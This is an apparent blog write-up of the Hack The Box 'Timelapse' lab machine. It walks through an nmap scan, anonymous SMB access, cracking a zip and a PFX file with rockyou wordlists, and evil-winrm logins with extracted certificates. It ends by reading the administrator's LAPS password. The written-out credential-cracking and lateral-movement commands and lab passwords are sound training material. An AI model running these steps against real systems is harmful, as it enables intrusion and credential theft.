 ```yaml
---
layout: single
title: Timelapse - Hack The Box
excerpt: "Timelapse is considered a easy windows machine, We beging this be finding a pfx file in the shared SMB with null authentification. After getting the file we are able to extract the private key and the cert form it. Then we login as legacyy to the machine using evil-winrm over ssl. To gain access to Administrator we are able to find some credentials that lets us login with the user svc_deploy and using his privilege as LAPS_reader (group) then we are able to get admins 'temp' password"
date: 2023-01-31
classes: wide
header:
  teaser: /assets/images/htb-writeup-Timelapse/timelapse-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - easy
  - windows
  - SMB
  - LAPS
  - OpenSSL

---
```


![](/assets/images/htb-writeup-Timelapse/timelapse-logo.png)

### Machine IP = 10.10.11.152

## Port Scan
We start with our usual NMAP scan:
* sudo nmap -sS -sV -sC -p- -vvv -oA nmap/allPorts 10.10.11.152

```
# Nmap 7.92 scan initiated Wed Jan 25 09:34:05 2023 as: nmap -sS -sV -sC -p- -vvv -oA nmap/allPorts 10.10.11.152
Nmap scan report for 10.10.11.152
Host is up, received echo-reply ttl 127 (0.067s latency).
Scanned at 2023-01-25 09:34:06 EST for 520s
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE           REASON          VERSION
53/tcp    open  domain            syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-01-25 22:41:13Z)
135/tcp   open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack ttl 127
464/tcp   open  kpasswd5?         syn-ack ttl 127
593/tcp   open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack ttl 127
3268/tcp  open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 127
5986/tcp  open  ssl/http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233 a199 4504 0859 013f b9c5 e4f6 91c3
| SHA-1: 5861 acf7 76b8 703f d01e e25d fc7c 9952 a447 7652
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQLRY/feXALoZCPZtUeyiC4DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwHhcNMjExMDI1MTQwNTI5WhcN
| MjIxMDI1MTQyNTI5WjAdMRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJdoIQMYt47skzf17SI7M8jubO
| rD6sHg8yZw0YXKumOd5zofcSBPHfC1d/jtcHjGSsc5dQQ66qnlwdlOvifNW/KcaX
| LqNmzjhwL49UGUw0MAMPAyi1hcYP6LG0dkU84zNuoNMprMpzya3+aU1u7YpQ6Dui
| AzNKPa+6zJzPSMkg/TlUuSN4LjnSgIV6xKBc1qhVYDEyTUsHZUgkIYtN0+zvwpU5
| isiwyp9M4RYZbxe0xecW39hfTvec++94VYkH4uO+ITtpmZ5OVvWOCpqagznTSXTg
| FFuSYQTSjqYDwxPXHTK+/GAlq3uUWQYGdNeVMEZt+8EIEmyL4i4ToPkqjPF1AgMB
| AAGjRjBEMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNV
| HQ4EFgQUZ6PTTN1pEmDFD6YXfQ1tfTnXde0wDQYJKoZIhvcNAQELBQADggEBAL2Y
| /57FBUBLqUKZKp+P0vtbUAD0+J7bg4m/1tAHcN6Cf89KwRSkRLdq++RWaQk9CKIU
| 4g3M3stTWCnMf1CgXax+WeuTpzGmITLeVA6L8I2FaIgNdFVQGIG1nAn1UpYueR/H
| NTIVjMPA93XR1JLsW601WV6eUI/q7t6e52sAADECjsnG1p37NjNbmTwHabrUVjBK
| 6Luol+v2QtqP6nY4DRH+XSk6xDaxjfwd5qN7DvSpdoz09+2ffrFuQkxxs6Pp8bQE
| 5GJ+aSfE+xua2vpYyyGxO0Or1J2YA1CXMijise2tp+m9JBQ1wJ2suUS2wGv1Tvyh
| lrrndm32+d0YeP/wb8E=
|_-----END CERTIFICATE-----
|_ssl-date: 2023-01-25T22:42:43+00:00; +7h59m58s from scanner time.
|_http-title: Not Found
9389/tcp  open  mc-nmf            syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49692/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49701/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-25T22:42:04
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 19804/tcp): CLEAN (Timeout)
|   Check 2 (port 32357/tcp): CLEAN (Timeout)
|   Check 3 (port 8045/udp): CLEAN (Timeout)
|   Check 4 (port 22941/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h59m57s, deviation: 0s, median: 7h59m57s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 25 09:42:46 2023 -- 1 IP address (1 host up) scanned in 520.77 seconds
```

## Enumeration

If we look into the result we are able to find some domains such as **dc01.timelapse.htb** & **timelaps.htb**, which we are going to add to **/etc/hosts**!

![](/assets/images/htb-writeup-Timelapse/pic01.png)

then I go to the port/service that I feel most comfortable with which in this case it will be SMB, we check with smbclient with null auth:
```
smbclient -L \\10.10.11.152\ -N 
```

![](/assets/images/htb-writeup-Timelapse/pic02.png)

When we check the "Shares" folder, we're able to find to folders **dev** & **HelpDesk** if we investigate a little bit more about the file we encounter a .zip file that we download, some LAPS documents and a installer of LAPS .msi.

![](/assets/images/htb-writeup-Timelapse/pic03.png)

we try to unzip the winrm_backup.zip file, but we encounter that the zip  is protected with a password. To crack the password of the zip we can use zip2john but in my case I prefered to use the tool [Fcrackzip](https://www.kali.org/tools/fcrackzip/)

![](/assets/images/htb-writeup-Timelapse/pic04.png)

```
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u winrm_backup.zip
```
![](/assets/images/htb-writeup-Timelapse/pic05.png)

We are able to crack the password needed for the file:
* supremelegacy

after unzipping the file we find a file named **legacyy_dev_auth.pfx**, if you want to learn more about LAPS on windows visit [Link1](https://www.howtouselinux.com/post/pfx-file-with-examples) or [Link2](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)


now we try now to extract the keys (Private key and public Cert) but it is asking for a password. To crack this password we can user pfx2john on in my case I prefered to use [crackpkcs12](https://github.com/crackpkcs12/crackpkcs12)

```
crackpkcs12 -v  -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
```

![](/assets/images/htb-writeup-Timelapse/pic06.png)

Now that we have the password of the file, we just follow the instructions from one of the links previously provided and get are able to extract the private key and the certificate

```
openssl pkcs12 -in legacyy_dev_auth.pfx  -nocerts -out Lprivate.key

openssl pkcs12 -in legacyy_dev_auth.pfx  -clcerts -nokeys -out certificate.crt

```
![](/assets/images/htb-writeup-Timelapse/pic07.png)


If we check evil-winrm, it has options such as:
- -S --> enable SSL
- -c --> public key certificate
- -k --> privatate key certificate
 usign the two certicates we just got we are able to login to the machine as **Legacyy**

 ![](/assets/images/htb-writeup-Timelapse/pic08.png)

while doing some basic enumeration I counter some interesing group (LAPS_Readers) taking into account the name of the machine. 
```
net gruoups
```
![](/assets/images/htb-writeup-Timelapse/pic09.png)
I make futher investigation on that specific group and i realized that the user ***svc_deploy*** is part of that specific group

```
net groups LAPS_Readers

```
![](/assets/images/htb-writeup-Timelapse/pic10.png)

If we run winPEAS.exe on the machine and it will tell us to look to an specific path:
- C:\Users\legacyy\appdata\roaming\microsoft\windows\powershell\psreadline4
we will be able to find the file consoleHosto_history.txt and find ***svc_deploy*** credentials

![](/assets/images/htb-writeup-Timelapse/pic11.png)


- user: svc_deploy
- pass: 'E3R$Q62^12p7PLlC%KWaxuaV'

we test the credentials on evil-winrm and it works. We are in !!!
```
evil-winrm -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S -i 10.10.11.152
```

now that we as svc_deploy we are part of LAPS_Reader we user a powershell [script](https://github.com/kfosaaen/Get-LAPSPasswords) to get the passwords stored

![](/assets/images/htb-writeup-Timelapse/pic12.png)

now we just need to take the password and login as Administrator


![](/assets/images/htb-writeup-Timelapse/pic13.png)